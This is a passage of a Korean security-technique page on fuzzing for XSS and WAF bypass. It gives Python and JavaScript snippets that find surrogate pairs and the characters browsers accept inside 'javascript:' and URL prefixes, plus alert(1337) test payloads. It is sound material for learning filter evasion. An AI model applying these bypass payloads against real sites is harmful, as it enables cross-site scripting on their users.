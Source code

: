 이 기술은 XSS에는 그다지 유용하지 않지만 WAF 보호를 우회하는 데 유용할 수 있습니다. 이 파이썬 코드는 2바이트를 입력으로 받아들이고, 첫 번째 바이트가 높은 서로게이트 쌍의 마지막 바이트이고 마지막 바이트가 낮은 서로게이트 쌍의 마지막 바이트인 서로게이트 쌍을 검색합니다.
```python
def unicode(findHex):
for i in range(0,0xFFFFF):
H = hex(int(((i - 0x10000) / 0x400) + 0xD800))
h = chr(int(H[-2:],16))
L = hex(int(((i - 0x10000) % 0x400 + 0xDC00)))
l = chr(int(L[-2:],16))
if(h == findHex[0]) and (l == findHex[1]):
print(H.replace("0x","\\u")+L.replace("0x","\\u"))
```
### `javascript{}:` 프로토콜 퍼징
```javascript
// Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (p. 34). Kindle Edition.
log=[];
let anchor = document.createElement('a');
for(let i=0;i<=0x10ffff;i++){
anchor.href = `javascript${String.fromCodePoint(i)}:`;
if(anchor.protocol === 'javascript:') {
log.push(i);
}
}
console.log(log)//9,10,13,58
// Note that you could BF also other possitions of the use of multiple chars

// Test one option
let anchor = document.createElement('a');
anchor.href = `javascript${String.fromCodePoint(58)}:alert(1337)`;
anchor.append('Click me')
document.body.append(anchor)

// Another way to test
<a href="&#12;javascript:alert(1337)">Test</a>
```
### URL 퍼징
```javascript
// Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (pp. 36-37). Kindle Edition.

// Before the protocol
a = document.createElement("a")
log = []
for (let i = 0; i <= 0x10ffff; i++) {
a.href = `${String.fromCodePoint(i)}https://hacktricks.xyz`
if (a.hostname === "hacktricks.xyz") {
log.push(i)
}
}
console.log(log) //0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32

// Between the slashes
a = document.createElement("a")
log = []
for (let i = 0; i <= 0x10ffff; i++) {
a.href = `/${String.fromCodePoint(i)}/hacktricks.xyz`
if (a.hostname === "hacktricks.xyz") {
log.push(i)
}
}
console.log(log) //9,10,13,47,92
```
### HTML 퍼징
